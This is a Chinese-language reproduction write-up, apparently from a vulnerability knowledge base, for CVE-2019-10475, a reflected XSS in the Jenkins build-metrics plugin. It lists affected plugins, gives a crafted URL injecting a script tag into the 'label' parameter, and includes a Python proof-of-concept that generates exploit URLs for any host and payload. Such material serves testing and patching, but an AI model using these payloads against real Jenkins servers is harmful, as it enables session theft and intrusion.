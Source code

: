 # CVE-2019-10475 插件反射型xss

### 一、漏洞简介

### 二、漏洞影响

* 360 FireLine插件， 最高包括1.7.2
* Bitbucket OAuth插件， 最高包括0.9
* Build-metrics插件 1.3及以下
* 部署WebLogic Plugin 最高至4.1
* Dynatrace应用程序监视插件， 最高包括2.1.3
* Dynatrace应用程序监视插件， 最高包括2.1.4
* ElasticBox Jenkins Kubernetes CI / CD插件， 最高至1.3
* 包含1.1.4及以下版本的 全局Post Script插件
* Libvirt Slaves插件， 最高包括1.8.5
* 截至 2.7.0的 Mattermost Notification插件
* Sonar Gerrit插件， 最高包括2.3
* Zulip插件 （包括1.1.0及以下）

### 三、复现过程

**1、手工复现**

该vulnearble插件位于`http://localhost:8080/plugin/build-metrics/`，漏洞参数为label。


```bash
http://192.168.1.75:8080/plugin/build-metrics/getBuildStats?label=<script>alert("CVE-2019-10475")</script>&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search
```

![](images/15890734166773.png)


2、利用脚本


```bash
Usage:

$ python3 CVE-2019-10475.py --help
usage: CVE-2019-10475.py [-h] [-p PORT] [-d DOMAIN] [-i INJECT]

CVE-2019-10475

optional arguments:
 -h, --help            show this help message and exit
 -p PORT, --port PORT  port
 -d DOMAIN, --domain DOMAIN
                       domain
 -i INJECT, --inject INJECT
                       inject
```


```python
#!/usr/bin/env python

import sys
import argparse

VULN_URL = '''{base_url}/plugin/build-metrics/getBuildStats?label={inject}&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search'''


def get_parser():
    parser = argparse.ArgumentParser(description='CVE-2019-10475')
    parser.add_argument('-p', '--port', help='port', default=80, type=int)
    parser.add_argument('-d', '--domain', help='domain', default='localhost', type=str)
    parser.add_argument('-i', '--inject', help='inject', default='<script>alert("CVE-2019-10475")</script>', type=str)
    return parser


def main():
    parser = get_parser()
    args = vars(parser.parse_args())
    port = args['port']
    domain = args['domain']
    inject = args['inject']
    if port == 80:
        base_url = f'http://{domain}'
    elif port == 443:
        base_url = f'https://{domain}'
    else:
        base_url = f'http://{domain}:{port}'
    build_url = VULN_URL.format(base_url=base_url, inject=inject)
    print(build_url)
    return 0


if __name__ == '__main__':
    sys.exit(main())
```